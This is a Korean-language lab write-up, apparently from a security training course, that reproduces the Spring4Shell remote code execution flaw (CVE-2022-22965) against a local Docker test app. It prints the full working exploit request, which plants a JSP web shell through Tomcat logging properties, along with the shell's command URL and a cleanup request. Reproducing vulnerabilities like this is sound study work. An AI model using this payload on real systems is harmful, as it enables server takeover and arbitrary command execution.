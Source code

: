 # Spring Framework Data Binding Remote Code Execution on JDK 9+ (CVE-2022-22965)

> 화이트햇 스쿨 3기 - [이호영 (@lhywk)](https://github.com/lhywk)

<br/>

### 요약

- `Spring Framework`의 `Data Binding` 기능을 악용하면, RCE가 가능함  
- 특정 HTTP 파라미터를 조작하여 공격자가 임의의 `.jsp` 웹쉘을 서버에 업로드할 수 있음  
- 업로드된 웹쉘을 통해 서버 내부 명령어 실행 및 시스템 권한 탈취 시도가 가능함  
- 해당 취약점은 `Spring Framework 5.3.17` 및 `JDK 9+` 환경에서 발생

<br/>

### 환경 구성

- `docker-compose up -d` 명령어로 테스트 환경 실행  
- `http://localhost:8080/` 접속하여 Spring 앱 정상 동작 확인

<br/>

### 취약점 재현

Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보낸다.
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```
![PoC Upload](./poc.png)

그런 다음 JSP 웹쉘을 사용하여 임의의 명령을 성공적으로 실행할 수 있다.

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

<br/>

### 결과

![result1 Upload](./result1.png)
![result1 Upload](./result2.png)

- `class.module.classLoader.resources.context.parent.pipeline.first.pattern` 등의 속성을 조작하여 웹쉘 JSP 파일 생성
- JSP 경로는 `/tomcatwar.jsp`



- JSP 웹쉘이 너무 커지는 것을 방지하기 위해 로그 경로 초기화 필요
- 아래 요청을 통해 `pattern` 속성 제거:

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
